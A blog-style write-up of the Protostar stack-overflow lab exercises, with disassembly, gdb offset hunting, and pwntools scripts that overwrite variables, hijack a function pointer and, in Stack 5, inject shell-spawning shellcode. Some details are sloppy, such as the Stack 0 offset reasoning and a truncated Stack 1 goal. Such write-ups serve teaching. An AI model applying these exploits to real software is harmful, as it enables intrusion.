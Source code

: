 ```yaml
---
layout: post
title: Protostar Stack Writeups
description:
date: 2025-04-23
categories:
  - writeup
  - pwn
tags:
  - protostar-stack
---
```

# Protostar Stack Writeups

## Stack 0

**GOAL** : Modify a variable

```sh
0x08048405 <+17>:	lea    eax,[esp+0x1c]
0x08048409 <+21>:	mov    DWORD PTR [esp],eax
0x0804840c <+24>:	call   0x804830c <gets@plt>

```

This takes user input and stores it at [esp+0x1c]

```sh
   0x080483fd <+9>:	    mov    DWORD PTR [esp+0x5c],0x0
   0x08048411 <+29>:	mov    eax,DWORD PTR [esp+0x5c]
   0x08048415 <+33>:	test   eax,eax
   0x08048417 <+35>:	je     0x8048427 <main+51>
   0x08048419 <+37>:	mov    DWORD PTR [esp],0x8048500
   0x08048420 <+44>:	call   0x804832c <puts@plt>
   0x08048425 <+49>:	jmp    0x8048433 <main+63>
   0x08048427 <+51>:	mov    DWORD PTR [esp],0x8048529
   0x0804842e <+58>:	call   0x804832c <puts@plt>
   0x08048433 <+63>:	leave
   0x08048434 <+64>:	ret

```

Stores 0 into a variable, then compares the variable to 0;
IF true it prints "Try Again"
If false it prints "You have changed the 'modified variable"

**Ghidra Decompiled code**
```c

void main(void)

{
  char buffer [64];
  int please_change_me;
  
  please_change_me = 0;
  gets(buffer);
  if (please_change_me == 0) {
    puts("Try again?");
  }
  else {
    puts("you have changed the \'modified\' variable");
  }
  return;
}

```


---
## Developing Exploit

1. Find the  Offset (Using gdb)
	- set breakpoints at main function and `ret` instruction 
	- run the program in gdb 
	- Create pattern to fill in buffer 
```sh
gef➤  pattern create 300
[+] Generating a pattern of 300 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
[+] Saved as '$_gef1'
```

- Continue and fill in the program 
- check if the is a buffer overflow

```sh
gef➤  x/wx $ebp
0x61616174:	Cannot access memory at address 0x61616174

```
- Get the buffer size
```sh
gef➤  pattern search 0x61616174
[+] Searching for '74616161'/'61616174' with period=4
[+] Found at offset 76 (little-endian search) likely

```

Buffer size = 76
Offset = 80 | because we need to override the ebp which takes up 4 bytes


**Exploit**
```python
#!/usr/bin/python3

from pwn import *

binary = "./stack0"
elf = ELF(binary)
p = process(binary)
#goal is to modify varaible
buf_size = 76
offset = 80

payload = b"A"*offset
payload += p32(0x2) # change the varible to 2

p.sendline(payload)
p.interactive()
```

## Stack 1

**Goal** : Modify the variable to be 

```
./stack1 $(python3 -c 'print("A"*64 + "\x64\x63\x62\x61")')
```

## Stack 2

Code

```c
void main(void)
{
  char buffer [64];
  int change_me;
  char *env;

  env = getenv("GREENIE");
  if (env == (char *)0x0) {
    errx(1,"please set the GREENIE environment variable\n");
  }
  change_me = 0;
  strcpy(buffer,env);
  if (change_me == 0xd0a0d0a) {
    puts("you have correctly modified the variable");
  }
  else {
    printf("Try again, you got 0x%08x\n",change_me);
  }
  return;
}
```

we need to put our exploit in the environment variable `GREENIE`

To modify the `change_me` variable we just need to fill in the buffer then put what we want to put in the `change_me` variable which is `\x0a\x0d\x0a\x0d` in this case (little endian)



```sh
export GREENIE=$(python -c 'print("A"*64 + "\x0a\x0d\x0a\x0d")')
```

```sh
/stack2 
you have correctly modified the variable
```

## Stack 3

Source 

```c
void main(void)
{
  char buffer [64];
  code *func_ptr;
  
  func_ptr = (code *)0x0;
  gets(buffer);
  if (func_ptr != (code *)0x0) {
    printf("calling function pointer, jumping to 0x%08x\n",func_ptr);
    (*func_ptr)();
  }
  return;
}

void win(void)
{
  puts("code flow successfully changed");
  return;
}
```

Our exploit needs to fill up the buffer and call the address (pointer ) of the `win` function

**Exploit**

```python 
#!/usr/bin/python3

from pwn import *

binary = "./stack3"
elf = ELF(binary)
p = process(binary)

buffer_size = 64

addr = p32(elf.sym["win"]) # address of the win function 

payload = b"A"*buffer_size
payload += addr

p.sendline(payload)
p.interactive()
```

## Stack 4

```python
#!/usr/bin/python3

from pwn import *

binary = "./stack4"
elf = ELF(binary)
p = process(binary)

win_func = p32(elf.sym['win'])
buf_size = 76

payload = b"A"*buf_size
payload += win_func

p.sendline(payload)
p.interactive()
```

## Stack 5

```c
#!/usr/bin/python

from pwn import *

binary = "./stack5"
elf = ELF(binary)
p = process(binary)

buf_size = 76
shellcode = asm(shellcraft.sh())
ret_addr = p32(0xffffcdd0) # buffer address

payload = b"\x90"*(buf_size - len(shellcode))
payload += shellcode
payload += ret_addr

log.info(f"Buffer size: {buf_size}")
log.info(f"Shellcode size: {len(shellcode)}")
log.info(f"NOP sled size: {buf_size - len(shellcode)}")
log.info(f"Return address: {hex(u32(ret_addr))}")
log.info(f"Payload: {payload}")

p.sendline(payload)
p.interactive()
```
